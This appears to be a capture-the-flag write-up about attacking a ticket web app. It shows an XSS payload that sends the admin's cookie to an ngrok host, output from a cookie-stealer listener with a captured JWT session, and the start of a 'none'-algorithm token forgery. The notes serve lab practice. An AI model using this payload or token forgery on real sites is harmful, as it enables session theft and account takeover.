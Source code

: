 
[http://165.22.125.212:30333/](#http://165.22.125.212:30333/)



**Got a few simple things here:
**
**1\) main page sends a message to /api/tickets/add:**

POST /api/tickets/add HTTP/1\.1
Host: 165\.22\.125\.212:30333
User\-Agent: Mozilla/5\.0 \(Windows NT 10\.0; rv:91\.0\) Gecko/20100101 Firefox/91\.0
Accept: \*/\*
Accept\-Language: en\-US,en;q=0\.5
Accept\-Encoding: gzip, deflate
Referer: [http://165.22.125.212:30333/](#http://165.22.125.212:30333/)

Content\-Type: application/json
Origin: [http://165.22.125.212:30333](#http://165.22.125.212:30333)

Content\-Length: 18
DNT: 1
Connection: close

\{"message":"main"\}

**2\) /login page sends  to /api/login:**

POST /api/login HTTP/1\.1
Host: 165\.22\.125\.212:30333
User\-Agent: Mozilla/5\.0 \(Windows NT 10\.0; rv:91\.0\) Gecko/20100101 Firefox/91\.0
Accept: \*/\*
Accept\-Language: en\-US,en;q=0\.5
Accept\-Encoding: gzip, deflate
Referer: [http://165.22.125.212:30333/login](#http://165.22.125.212:30333/login)

Content\-Type: application/json
Origin: [http://165.22.125.212:30333](#http://165.22.125.212:30333)

Content\-Length: 39
DNT: 1
Connection: close

\{"username":"admin","password":"admin"\}


**Okay, so, idk why but I never tried an XSS here but got a cookie right away from the admin with:**

┌─\[root@parrotLT\]─\[/ws\]
└──╼ #python3 cookiestealer\.py 


Use this URL:

\<script\>document\.location='[https://1dd3-216-93-199-231.ngrok.io/?c='+document.cookie;</script>](#https://1dd3-216-93-199-231.ngrok.io/?c='+document.cookie;</script>)



\* Serving Flask app "cookiestealer" \(lazy loading\)
\* Environment: production
WARNING: This is a development server\. Do not use it in a production deployment\.
Use a production WSGI server instead\.
\* Debug mode: off
\* Running on [http://0.0.0.0:12344/](#http://0.0.0.0:12344/)
\(Press CTRL\+C to quit\)
127\.0\.0\.1 \- \- \[16/May/2022 01:18:37\] "GET /?c=session=eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9\.eyJ1c2VybmFtZSI6Im1vZGVyYXRvciIsInVpZCI6MTAwLCJpYXQiOjE2NTI2ODkxNDN9\.utbcrTt709FuIDLvmF\-ZTNGxeQ09Kzl2cGLZqcYhohs HTTP/1\.1" 404 \-


**Added this quickly to my request to login:**

Took this JWT apart in jwt\.io:

eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9\.eyJ1c2VybmFtZSI6Im1vZGVyYXRvciIsInVpZCI6MTAwLCJpYXQiOjE2NTI2ODkxNDN9\.utbcrTt709FuIDLvmF\-ZTNGxeQ09Kzl2cGLZqcYhohs


\{
"alg": "HS256",
"typ": "JWT"
\}

\{
"username": "moderator",
"uid": 100,
"iat": 1652689143
\}

**So, maybe I can use this info to get in:**

**Logged in w/**: moderator / moderator
Nope, doesn't work\.

**Found in the login page a redirect should go to /tickets;**

\.then\(\(resp\) =\> \{
if \(response\.status == 200\) \{
card\.text\(resp\.message\);
card\.show\(\);
window\.location\.href = '/tickets';
return;

**Tried modifying a request to this with the cookie above\.\.**

**Doesn't work with post, but works with get\.\.****However, authentication required\!****JWT's expire fast, tried my phish again\.\.**

/?c=session=eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9\.eyJ1c2VybmFtZSI6Im1vZGVyYXRvciIsInVpZCI6MTAwLCJpYXQiOjE2NTI2ODk4OTF9\.toFX\_rvK\_q\_WxGBQUxopuL6AQIG8Tw\_Zq4\-S6aggULQ HTTP/1\.1

**Okay, so still getting 'Authentication required:
**
Connection: keep\-alive
Content\-Length: 62
Content\-Type: application/json; charset=utf\-8
Date: Mon, 16 May 2022 08:32:18 GMT
ETag: W/"3e\-/1UkwJa\+jPgD9s2rwxKvVNkt/Ws"
Keep\-Alive: timeout=5
X\-Powered\-By: Express

Accept: text/html,application/xhtml\+xml,application/xml;q=0\.9,image/webp,\*/\*;q=0\.8
Accept\-Encoding: gzip, deflate
Accept\-Language: en\-US,en;q=0\.5
Connection: keep\-alive
DNT: 1
Host: 165\.22\.125\.212:30333
Upgrade\-Insecure\-Requests: 1
User\-Agent: Mozilla/5\.0 \(Windows NT 10\.0; rv:91\.0\) Gecko/20100101 Firefox/91\.0

**Lets look @ the jwt again:**

**Maybe I can replace it with None and change stuff, its either that or use it for something like /api/tickets/list:**

ewogICJhbGciOiAibm9uZSIsCiAgInR5cGUiOiAiSldUIgp9\.

